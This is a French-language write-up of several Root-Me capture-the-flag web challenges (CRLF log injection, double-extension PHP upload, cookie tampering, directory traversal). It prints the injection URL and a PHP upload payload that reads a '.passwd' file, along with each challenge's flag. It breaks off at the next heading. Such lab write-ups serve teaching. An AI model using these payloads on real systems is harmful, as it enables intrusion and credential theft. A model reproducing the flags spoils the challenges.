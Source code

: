 
## 12. CRLF

En se renseignant à propos de l'injection CRLF, on découvre que les caractères `%0d%0a` permettent de passer des données supplémentaires dans une requête.
On passe donc le message "admin authenticated." suivi du flag CRLF ainsi que du mot guest pour faire croire au fichier de log qu'on s'est connecté et le flag attentu s'affiche :

```
URL utilisée : http://challenge01.root-me.org/web-serveur/ch14/?username=admin%20authenticated.%0d%0aguest
```

Le flag est donc  **rFSP&G0p&5uAg1%**.

## 13. File upload - double extensions

Comme le titre du défi l'indiquait, nous avons utilisé un fichier avec une double extension pour exécuter du code PHP.
Nous avons donc créé un fichier `img.php.jpeg`, puisque seules les extensions GIF, PNG et JPEG étaient acceptées, et nous avons mis en corps du fichier le code suivant permettant de lire le contenu du fichier `.passwd` et de l'afficher :
```php
<?php
$file = file_get_contents('../../../.passwd');
var_dump($file);
?>
```
Une fois le fichier uploadé, on y accède via l'URL indiquée et celui nous retourne le mot de passe :
```
string(26) "Gg9LRz-hWSxqqUKd77-_q-6G8 "
```
## 15. HTTP Cookies

On renseigne dans un premier temps son adresse mail dans le formulaire puis on essaie d'accéder à la liste des mails sauvegardés. Un message d'erreur s'affiche alors en nous indiquant que nous ne sommes pas admin: `You need to be admin `

En observant les cookies, on voit un nouveau cookie avec la valeur `visiteur`. En passant cette valeur à `admin`, on peut accède au flag **ml-SYMPA**.

## 16. Directory traversal

En cliquant sur les liens du menu, on observe le paramètre GET `galerie` qui prend différentes valeurs selon le menu cliqué. En passant un paramètre vide, on observe une nouvelle catégorie : `86hwnX2r`

En accédant à la catégorie `86hwnX2r` via l'URL `http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r`, on trouve un fichier `password` contenant le flag **kcb$!Bx@v4Gs9Ez**.

## 17.	PHP Assert() 
